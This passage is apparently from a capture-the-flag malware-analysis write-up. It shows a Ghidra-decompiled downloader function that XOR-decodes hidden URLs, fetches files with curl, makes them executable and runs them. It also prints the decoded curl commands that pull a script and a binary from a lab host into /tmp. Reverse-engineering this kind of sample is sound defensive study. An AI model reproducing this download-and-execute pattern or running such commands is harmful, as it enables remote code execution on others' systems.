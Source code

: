 ```c
  }
  system((char *)&local_90);
  system((char *)&local_a8);
  return 0;
}
```

After renaming a few variables and removing some of the Ghidra decompilation artifacts, the function looks like this:

```c
int downloadAndExecute() {
    memcpy(file_1,&DAT_00400f74,0x3a);
    memcpy(file_2,&DAT_00400fb0,0x37);
    xor(&url_1);
    xor(&url_2);
    xor(file_1);
    xor(file_2);
    iVar1 = access((char *)&url_1,0);
    if (iVar1 == -1) {
        curl(file_1,&url_1);
        chmod((char *)&url_1,0x1ff);
    }
    iVar1 = access((char *)&url_2,0);
    if (iVar1 == -1) {
        curl(file_2,&url_2);
        chmod((char *)&url_2,0x1ff);
    }
    system((char *)&url_2);
    system((char *)&url_1);
    return 0;
}
```

Next, I grabbed the contents of the two URLs and files from the memory of the binary, along with the key used to XOR them. I plugged all of them into CyberChef, and got the following results:

![CyberChef Decode](./images/6-cyberchef_decode.png)

The first command (translated) is `curl http://configs.router.htb/reanimate.sh_jEzOWMtZTUxOS00 > /tmp/reanimate.sh`

The second command (translated) is `curl http://configs.router.htb/dead_reanimated_mNmZTMtNjU3YS00 > /tmp/dead_reanimated`
